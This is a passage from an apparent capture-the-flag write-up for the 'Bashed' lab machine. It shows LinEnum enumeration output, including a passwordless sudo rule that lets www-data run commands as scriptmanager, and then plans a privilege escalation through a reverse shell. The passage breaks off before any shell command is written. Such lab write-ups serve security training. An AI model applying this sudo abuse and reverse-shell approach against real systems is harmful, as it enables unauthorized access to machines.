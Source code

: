 ```
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[00;31m[-] Group memberships:[00m
uid=0(root) gid=0(root) groups=0(root)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=1000(arrexel) gid=1000(arrexel) groups=1000(arrexel),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)

[00;31m[-] It looks like we have some admin users:[00m
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(arrexel) gid=1000(arrexel) groups=1000(arrexel),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

[00;31m[-] Super user account(s):[00m
root

[00;33m[+] We can sudo without supplying a password![00m
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

[00;31m[-] Accounts that have recently used sudo:[00m
/home/arrexel/.sudo_as_admin_successful

[00;33m### SCAN COMPLETE ####################################[00m
```

We should notice two things here very quickly baed on the output from LinEnum. The first thing that we should notice is that we can sudo without supplying a password.

```
[00;33m[+] We can sudo without supplying a password![00m
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```

The second thing we should notice is that as `www-data` we can run any commands as `scriptmanager`, this is poor configuration in a Linux environment.

```
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

Now that we know we can run any commands as scriptmanager, let's test this out. If we run a `sudo -u scriptmanager whoami` we return `scriptmanager` as the user, the problem is this is not persistent. So if I run this command then run a `whoami` again, I'm still `www-data`, this isn't helpful! We want full priv-esc! In order to get a persistent shell we're going to need to reverse shell.
